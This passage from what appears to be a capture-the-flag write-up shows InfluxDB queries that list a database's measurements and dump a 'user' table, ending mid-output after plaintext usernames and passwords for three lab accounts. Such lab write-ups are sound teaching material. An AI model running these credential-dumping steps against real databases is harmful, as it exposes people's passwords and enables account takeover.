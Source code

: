 Now, we have an InfluxDB so let's try to list the tables. Searching online for how to do this reveals that we need to run the `SHOW MEASUREMENTS` command. You can learn more about InfluxDB queries [on this page](https://docs.influxdata.com/influxdb/v1.8/query_language/explore-data/#the-basic-select-statement).

```
[admin@127.0.0.1/devzat] $ SHOW MEASUREMENTS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Now, we can dump all the fields from the `users` measurement:

```
[admin@127.0.0.1/devzat] $ select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
```
